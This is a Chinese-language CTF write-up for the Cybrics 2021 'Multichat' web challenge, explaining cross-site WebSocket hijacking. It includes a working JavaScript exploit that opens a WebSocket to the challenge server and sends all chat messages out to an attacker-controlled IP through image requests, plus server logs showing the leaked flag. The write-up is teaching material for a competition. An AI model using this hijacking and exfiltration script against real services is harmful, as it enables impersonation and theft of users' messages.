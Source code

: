 ```yaml
---
layout: post
title: Cybrics 2021 web wp
date: 2021-07-30 09:56 +0800
last_modified_at: 2021-07-30 09:56:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 Multichat

关键词：Websocket劫持，服务器日志查看

关键知识点：[WebSocket劫持](https://blog.csdn.net/qq_37788558/article/details/86221146)

大致是一个基于WebSocket实现的在线聊天室，通过输入房间号连接进入Websocket聊天室。而最后的flag是通过support界面中的寻求support让拥有tech support的服务器去访问我们精心设计好的网页，而我们设计的网页则可以伪装tech support的身份向admin发送消息从而获得flag。

（当然最后因为学艺不精最终没有解出，是最终借鉴了Sndav的exp完成的复现。）

而在赛后复现的时候，出现了一直验证码不正确的情况，经过排查后知道需要挂代理才可以验证成功= =。

下面给出exp（借鉴了Sndav哥哥的exp）：

```
<script>
    function appendLog(msg){
        document.write(`<img src=http://110.40.143.221/index.php?a=${escape(msg)}></img>`);
    }
    ws=new WebSocket("ws://multichat-cybrics2021.ctf.su/ws");
    ws.onclose=function (evt){
        var item ="";
        if(evt.code===1003){
            item=`Status:${evt.reason}`;
        }else{
            item="Connection closed.";
        }
        appendLog(item);
    };
    ws.onopen=function(evt){
        appendLog("Connented");
        ws.send("Hey, i forgot the flag. Can you remind me?")
    };
    ws.onmessage=function(evt){
        appendLog(evt.data)
    };
</script>
```

其中将exp挂载在vps上就可以，而index.php可以是任意界面，仅为了便于观察服务器访问记录。

![image-20210730104331777](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Cybrics1.png)

最终在服务器log中获取到flag：

```
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /favicon.ico HTTP/1.1" 404 493 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Connented HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Sure%2C%20dude.%20The%20flag%20is%20cybrics%7BPwn3d_CR055_51t3_W3850CK3t_h1jACK1n9%7D HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Hey%2C%20i%20forgot%20the%20flag.%20Can%20you%20remind%20me%3F HTTP/1.1" 200 216 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
```

获取到flag为：

```
cybrics{Pwn3d_CR055_51t3_W3850CK3t_h1jACK1n9}
```

